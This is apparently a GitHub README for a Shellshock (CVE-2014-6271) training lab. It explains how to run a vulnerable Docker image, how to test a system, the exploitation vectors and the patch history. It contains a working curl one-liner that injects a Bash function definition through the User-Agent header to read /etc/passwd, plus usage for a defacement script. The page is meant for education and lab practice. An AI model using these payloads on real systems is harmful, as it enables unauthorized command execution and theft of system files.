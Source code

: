 ![Logo](/shellshock.png)
# Shellshock exploit + vulnerable environment 
[![Docker Pulls](https://img.shields.io/docker/pulls/vulnerables/cve-2014-6271.svg?style=plastic)](https://hub.docker.com/r/vulnerables/cve-2014-6271/)

Shellshock, also known as Bashdoor, is a family of security bugs in the widely used Unix Bash shell, the first of which was disclosed on 24 September 2014. Many Internet-facing services, such as some web server deployments, use Bash to process certain requests, allowing an attacker to cause vulnerable versions of Bash to execute arbitrary commands. This can allow an attacker to gain unauthorized access to a computer system.

## Run a vulnerable environment

You will need docker installed to run the environment, go to [docker.com](https://docker.com) and install it if you don't have it yet.

To start the vulnerable environment just run

    docker run --rm -it -p 8080:80 vulnerables/cve-2014-6271

Open your browser and go to ```localhost:8080```, if everything is OK you will see a page like this

![vulnerable](/print.png)

## Exploit

There are several ways to exploit this flaw

### Exploit it with one liner

An simple example to ```cat /etc/passwd```

    curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" \
    http://localhost:8080/cgi-bin/vulnerable

You can use it to run any command that you want

### Exploit for defacement

This is just a sample code in exploit-deface.sh, just run it against the image

    ./exploit-deface.sh <ip> <port>

For example if you are running it with the command provided above

    ./exploit-deface.sh localhost 8080

Just refresh your browser and you will see

![Deface](/defaced.png)

## Test your system

Just run this bash script in your system and you will see if you are vulnerable or not:

    env 'VAR=() { :;}; echo Bash is vulnerable!' 'FUNCTION()=() { :;}; echo Bash is vulnerable!' bash -c "echo Bash Test"

## Exploitation Vectors

### CGI-based web server

When a web server uses the Common Gateway Interface (CGI) to handle a document request, it passes various details of the request to a handler program in the environment variable list. For example, the variable HTTP_USER_AGENT has a value that, in normal usage, identifies the program sending the request. If the request handler is a Bash script, or if it executes one for example using the system(3) call, Bash will receive the environment variables passed by the server and will process them as described above. This provides a means for an attacker to trigger the Shellshock vulnerability with a specially crafted server request.
Security documentation for the widely used Apache web server states: "CGI scripts can ... be extremely dangerous if they are not carefully checked." and other methods of handling web server requests are often used. There are a number of online services which attempt to test the vulnerability against web servers exposed to the Internet.

### OpenSSH server

OpenSSH has a "ForceCommand" feature, where a fixed command is executed when the user logs in, instead of just running an unrestricted command shell. The fixed command is executed even if the user specified that another command should be run; in that case the original command is put into the environment variable "SSH_ORIGINAL_COMMAND". When the forced command is run in a Bash shell (if the user's shell is set to Bash), the Bash shell will parse the SSH_ORIGINAL_COMMAND environment variable on start-up, and run the commands embedded in it. The user has used their restricted shell access to gain unrestricted shell access, using the Shellshock bug.

### DHCP clients

Some DHCP clients can also pass commands to Bash; a vulnerable system could be attacked when connecting to an open Wi-Fi network. A DHCP client typically requests and gets an IP address from a DHCP server, but it can also be provided a series of additional options. A malicious DHCP server could provide, in one of these options, a string crafted to execute code on a vulnerable workstation or laptop.

### Qmail server

When using Bash to process email messages (e.g. through .forward or qmail-alias piping), the qmail mail server passes external input through in a way that can exploit a vulnerable version of Bash.

### IBM HMC restricted shell

The bug can be exploited to gain access to Bash from the restricted shell of the IBM Hardware Management Console, a tiny Linux variant for system administrators. IBM released a patch to resolve this.

## Fix

iUntil 24 September 2014, Bash maintainer Chet Ramey provided a patch version bash43-025 of Bash 4.3 addressing CVE-2014-6271, which was already packaged by distribution maintainers. On 24 September, bash43-026 followed, addressing CVE-2014-7169. Then CVE-2014-7186 was discovered. Florian Weimer from Red Hat posted some patch code for this "unofficially" on 25 September, which Ramey incorporated into Bash as bash43-027. These patches provided code only, helpful only for those who know how to compile ("rebuild") a new Bash binary executable file from the patch file and remaining source code files.

The next day, Red Hat officially presented according updates for Red Hat Enterprise Linux, after another day for Fedora 21. Canonical Ltd. presented updates for its Ubuntu Long Term Support versions on Saturday, 27 September; on Sunday, there were updates for SUSE Linux Enterprise. he following Monday and Tuesday at the end of the month, Apple OS X updates appeared.

On 1 October 2014, Michał Zalewski from Google Inc. finally stated that Weimer's code and bash43-027 had fixed not only the first three bugs but even the remaining three that were published after bash43-027, including his own two discoveries.This means that after the earlier distribution updates, no other updates have been required to cover all the six issues.

### Disclaimer

This or previous program is for Educational purpose ONLY. Do not use it without permission. The usual disclaimer applies, especially the fact that me (opsxcq) is not liable for any damages caused by direct or indirect use of the information or functionality provided by these programs. The author or any Internet provider bears NO responsibility for content or misuse of these programs or any derivatives thereof. By using these programs you accept the fact that any damage (dataloss, system crash, system compromise, etc.) caused by the use of these programs is not opsxcq's responsibility.
